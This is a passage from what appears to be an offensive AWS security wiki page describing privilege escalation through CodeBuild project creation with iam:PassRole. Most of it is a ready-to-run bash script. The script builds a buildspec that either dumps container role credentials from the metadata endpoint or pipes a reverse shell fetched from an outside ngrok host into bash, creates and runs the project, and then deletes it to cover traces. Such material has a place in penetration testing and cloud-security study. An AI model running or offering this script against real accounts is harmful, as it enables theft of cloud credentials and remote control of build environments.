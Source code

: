 **Note**: The difference between these two commands is that:

* `StartBuild` triggers a single build job using a specific `buildspec.yml`.
* `StartBuildBatch` allows you to start a batch of builds, with more complex configurations (like running multiple builds in parallel).

**Potential Impact:** Direct privesc to attached AWS Codebuild roles.

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

An attacker with the **`iam:PassRole`, `codebuild:CreateProject`, and `codebuild:StartBuild` or `codebuild:StartBuildBatch`** permissions would be able to **escalate privileges to any codebuild IAM role** by creating a running one.

{% tabs %}
{% tab title="Example1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
    \"name\": \"codebuild-demo-project\",
    \"source\": {
        \"type\": \"NO_SOURCE\",
        \"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
    },
    \"artifacts\": {
        \"type\": \"NO_ARTIFACTS\"
    },
    \"environment\": {
        \"type\": \"LINUX_CONTAINER\",
        \"image\": \"aws/codebuild/standard:1.0\",
        \"computeType\": \"BUILD_GENERAL1_SMALL\"
    },
    \"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}
